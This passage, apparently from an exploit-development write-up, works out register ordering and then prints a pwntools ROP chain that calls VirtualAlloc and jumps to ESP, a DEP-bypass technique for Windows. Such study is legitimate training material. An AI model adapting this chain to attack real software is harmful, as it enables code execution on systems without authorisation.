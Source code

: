 ecx breaks: `eax`
edx breaks: `ecx, eax`
esi breaks: `eax, ebp, edi, esi, ebx`

So the order should be:
```
esi
edx
ecx
# the rest
```

Giving the final rop chain of:
```
#ESI = pointer to VirtualAlloc
body += pwn.p32(addr_popeaxret)
body += pwn.p32(addr_iattable)
body += pwn.p32(addr_derefeaxret)
body += pwn.p32(addr_popebpret)
body += pwn.p32(0x100000000 - 0x05de34)
body += pwn.p32(addr_subeaxebp_pppr_ret)
body += pwn.p32(0x90909090)*3
body += pwn.p32(addr_popediret)
body += pwn.p32(addr_ppr)
body += pwn.p32(addr_derefeaxesi_calledi)

#EDX = flAllocationType #0x1000 
body += pwn.p32(addr_popecxret)
body += pwn.p32(0x1020f040)
body += pwn.p32(addr_popeaxret)
body += pwn.p32(0xFFFF0FFF)
body += pwn.p32(addr_incecxret)
body += pwn.p32(addr_movedxeax_saredx)
body += pwn.p32(addr_saredx)

#ECX = flProtect # 0x40
body += pwn.p32(addr_xorecx)
for i in range(3):
    body += pwn.p32(addr_popeaxret)
    body += pwn.p32(0x90909090)
    body += pwn.p32(addr_add0x10ecx)

#EAX = NOP (0x90909090)
body += pwn.p32(addr_popeaxret)
body += pwn.p32(0x90909090)

#EBP = pointer to JMP ESP
body += pwn.p32(addr_pushespret)

#EDI = ROPNOP (RET)
body += pwn.p32(addr_popediret)
body += pwn.p32(ropnop)

#EBX = dwSize # not 0
body += pwn.p32(addr_popebpret)
body += pwn.p32(0xFFFFFFFF)
body += pwn.p32(addr_incebx_calledi)
body += pwn.p32(addr_incebx_calledi)
```
